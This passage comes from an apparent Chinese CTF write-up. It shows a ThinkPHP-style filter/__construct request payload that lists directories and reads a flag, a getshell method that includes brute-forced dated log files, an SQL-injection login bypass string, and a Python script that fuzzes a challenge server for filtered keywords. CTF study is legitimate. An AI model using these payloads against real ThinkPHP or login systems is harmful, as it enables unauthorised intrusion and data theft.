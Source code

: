 ```php
_method=__construct&method=get&filter[]=scandir&get[]=/&filter[]=var_dump

```
得到flag的目录
![在这里插入图片描述](https://img-blog.csdnimg.cn/2a3a8b6c3791405486b151316ef996ed.png)
直接读取![在这里插入图片描述](https://img-blog.csdnimg.cn/dd8da8b931d34211a2bfba4b538ecdfb.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)
得到flag
####  利用日志
![在这里插入图片描述](https://img-blog.csdnimg.cn/b936e86de2a44f509f50a651122dfc80.png)
我们就可以通过log日志来包含getshell了
首先我们要知道tp的默认日志形式/202110/11.log 文件夹以年份加月数其中的日志为每日的形式
那么我们就可以爆破日志了
当我们爆破到15日时会发现写好的shell
![在这里插入图片描述](https://img-blog.csdnimg.cn/13bc44302fbc49c89524f9eff927cd3e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)
直接执行shell,读取目录
![在这里插入图片描述](https://img-blog.csdnimg.cn/f1e247bd045b4c32ba56e87c3480e69b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)
读取flag
![在这里插入图片描述](https://img-blog.csdnimg.cn/2e60fc2895c34bf2a3451176fd4bea29.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAWjNleU9uZA==,size_20,color_FFFFFF,t_70,g_se,x_16)

###  anothersql

####  脚本直接爆

由题意得就是个sql注入，但是测试一下，没有返回的数据，只返回admin和123456

```
uname=admin'or 1=1#&pwd=123456&wp-submit=%E7%99%BB%E5%BD%95
```

应该需要时间盲注或者布尔盲注了。但是`order by 4`执行了，可以判断是4列。

先用脚本跑一下字典，看哪些东西过滤了。或者直接bp感觉快多了。

```python
import requests

url="http://47.100.242.70:4003/check.php"
headers={
    'User-Agent':' Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0'
}
with open("sql.txt","r+",encoding="utf-8") as f:
    for line in f.readlines():
        data = {
            'uname': str(line),
            'pwd': '123'
        }
        response=requests.post(url=url,data=data)
        if "hacker!!!" in response.text:
            print(line.strip())
            print("\n")
```
